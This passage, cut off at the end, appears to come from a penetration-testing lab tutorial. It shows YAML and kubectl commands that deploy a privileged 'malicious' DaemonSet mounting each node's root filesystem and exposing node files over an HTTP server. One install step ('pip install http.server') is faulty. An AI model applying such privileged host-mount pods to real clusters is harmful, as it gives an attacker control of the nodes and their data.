Since the DaemonSet mounts the host's root filesystem, we can check the `node_info.txt` file on each node. In a real penetration test, you would need direct access to the nodes (e.g., through SSH) to verify this. In a lab environment, you can often access a node through the cloud provider's console or SSH.

To avoid needing direct node access for this demonstration, we can instead modify the DaemonSet YAML to expose the file through a simple web server. *This is for demonstration purposes and would rarely be done in a real pentest after gaining this level of access.*

First, modify the `malicious-daemonset.yaml` file. Change the container section to include an exposed port and a command that starts a simple HTTP server:

```yaml
      containers:
      - name: malicious-container
        image: python:3.9-slim-buster
        securityContext:
          privileged: true
        volumeMounts:
        - name: host-root
          mountPath: /host
        - name: tmp-data
          mountPath: /tmp-data
        ports:
        - containerPort: 8080
        command: ["/bin/bash", "-c"]
        args:
        - |
          apt-get update && apt-get install -y python3-venv && python3 -m venv /opt/venv
          source /opt/venv/bin/activate
          pip install http.server
          python -m http.server --directory /tmp-data 8080

      volumes:
      - name: host-root
        hostPath:
          path: /
      - name: tmp-data
        hostPath:
          path: /tmp
```

Then apply the changes:

```bash
kubectl apply -f malicious-daemonset.yaml
```

Now, get the pod names:

```bash
kubectl get pods -l app=malicious -o name
```

Finally, port forward to one of the pods:
